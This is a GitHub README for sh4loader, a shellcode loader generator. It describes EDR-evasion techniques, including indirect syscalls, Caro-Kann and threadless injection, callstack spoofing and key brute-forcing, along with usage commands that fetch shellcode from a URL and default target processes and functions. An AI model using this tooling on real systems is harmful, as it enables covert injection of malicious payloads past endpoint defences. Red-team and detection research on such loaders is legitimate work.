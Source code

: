 # sh4loader

<p align="center">
<img src="https://raw.githubusercontent.com/Sh4N4C1/gitbook/main/images/sh4loader.png" alt="sh4loader">
</p>

## ✨ Function

- **Indirect Syscall**: sh4loader use `indirect` syscall.
- **Caro Kann**: Sh4lib use [Caro-Kann](https://github.com/S3cur3Th1sSh1t/Caro-Kann) injection to evade kernel triggered memory scans.
- **Runtime Decrypt Shellcode**: sh4loader will bruteforce shellcode decryption key at runtime.
- **Threadless injection**: sh4loader use threadless injection.
- **CallstackSpoofing**: sh4loader use [CallstackSpoofing](https://github.com/pard0p/CallstackSpoofingPOC)

## Injection Method

- Local Common Injection
- Callstack spoof common Injection
- Caro-Kann Callstack spoof common Injection
- Caro-Kann threadless Injection
- Caro-Kann callstack spoff threadless Injection

## Install

```bash
git clone https://github.com/sh4n4c1/sh4loader.git
cd sh4loader
cargo build --release
./target/release/sh4loader --help
```

if build failed, we need update rustc

```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh # update rustc
```

## Usage

```bash
sh4loader <injection-method> --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

## Detail

### Caro-Kann Callstack spoof threadless Injection

```bash
sh4loader kann-threadless-stack --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This implant will find two memory, one for the `xor-encrypted main shellcode`, and one for the `Caro-Kann shellcode`. In threadless injection, it will first hook the target function, and then jump to the fixed shellcode to save the function state and then jump Go to Caro-Kann shellcode, Caro-Kann will help us decrypt and execute the main shellcode

```
  TARGET PROCESS
+-----------------+
|  [function A]   |------+ hooked function called and jump to our <save and jump shellcode> (1)
|    <hooked>     |      |
+-----------------+      |
|   MEMORY HOLE   |      |
| <save and jump> |<-----+ the <save and jump shellcode> will save hooked function state and jump to Caro (2)
|   <Caro-Kann>   |------+ <Caro-Kann shellcode> will sleep and decrypt <main shellcode> (3)
+-----------------+      |
|  [function B]   |      |
+-----------------+      |
|   MEMORY HOLE   |      |
| <main shellcode>|<-----+ <Caro-Kann shellcode> jump to <main shellcode> (4)
+-----------------+
```

1. During the execution of the implant, shellcode is patched to save the jump address.
2. [Callstack spoof](https://github.com/pard0p/CallstackSpoofingPOC) means that NtAPI will be called using the TpReleaseWork proxy.
3. The default function A and function B are `NtWaitForMultipleObjects` and `NtCreateWnfStateName` respectively. The default process is `RuntimeBroker`,because after using API Monitor I found that the RuntimeBroker process seems to call NtWaitForMultipleObjects every other time, and the NtCreateWnfStateName function is used to store the main shellcode.If you want to modify these default functions and processes, you can modify `include/KannThreadStackInj.h` in the implant project directory and Recompile with command `make KannThreadlessStackInj`

```c
// include/KannThreadStackInj.h

#define TARGET_PROCESS "RuntimeBroker.exe"      // Target process
#define TARGET_FUNC_TWO "NtCreateWnfStateName"  // Function B
#define TARGET_DLL "ntdll.dll"                  // Dll export Function A/B
#define TARGET_FUNC "NtWaitForMultipleObjects"  // Function A
```

### Caro-Kann threadless Injection

```bash
sh4loader kann-threadless-stack --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

Same as above, but using indirect syscalls instead of proxy calls.

### Caro-Kann Callstack spoof common Injection

```bash
sh4loader kann-spoofstacks --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method will use TpRelease proxy call `NtAllocateVirtualMemory` + `NtWriteVirtualMemory` + `NtCreateThreadEx` to inject Caro-Kann shellcode and encrypted main shellcode into the local process.

### Callstack spoof common Injection

```bash
sh4loader spoofstacks --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method will use TpRelease proxy call `NtAllocateVirtualMemory` + `NtWriteVirtualMemory` + `NtCreateThreadEx` to inject main shellcode into the local process.

### Local Common Injection

```bash
sh4loader common --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method just use indirect syscalls inject main shellcode into the local process.

## Resources

- https://github.com/pard0p/CallstackSpoofingPOC
- https://github.com/CCob/ThreadlessInject
- https://github.com/S3cur3Th1sSh1t/Caro-Kann
- https://github.com/caueb/ThreadlessStompingKann
- https://0xdarkvortex.dev/hiding-in-plainsight/
- https://maldevacademy.com/

This is my first time writing a loader.I'm not some sort of expert on malware development, C, C++.I will be making a lot of mistakes,I hope that my coding skills get better and better

Obviously, the stuff in this repository is explicitly for educational purposes.
